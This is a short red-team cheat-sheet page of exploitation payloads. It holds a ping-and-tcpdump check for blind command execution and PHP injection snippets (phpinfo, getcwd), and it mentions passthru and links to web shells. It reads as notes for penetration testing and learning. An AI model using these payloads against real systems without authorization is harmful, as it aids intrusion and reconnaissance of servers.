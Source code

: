# Exploitation Payloads

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is the way to go, but I noted down some of mine.

<hr class="sep-both">

## Shell

<div class="row row-cols-lg-2"><div>

#### Shell — Blind PoC

To see if your code is executed in a (semi) blind context:

```ps
$ ping -c 1 HOST_IP # execute by target
$ sudo tcpdump -i tun0 icmp # see if you got ping
```
</div><div>
</div></div>

<hr class="sep-both">

## PHP

<div class="row row-cols-lg-2"><div>

#### PHP — POC

We often run `phpinfo` to get information.

```php!
<?php phpinfo() ?>
```

We may also want some additional information:

```php!
<?php echo "Current directory: " . getcwd(); ?>
```

<br>

#### PHP — Execute Shell Commands

Refer to [webshells#php](/cybersecurity/red-team/s3.exploitation/shell/web_shell.md#php-web-shell). Special mention to the `passthru` function as it can be called without `echo` while still displaying the results.

<br>

#### PHP — Directory Listing

A few different ways to achieve the same output. If you cannot use a loop, simply print the array values one by one using `$xxx[0]`, etc.
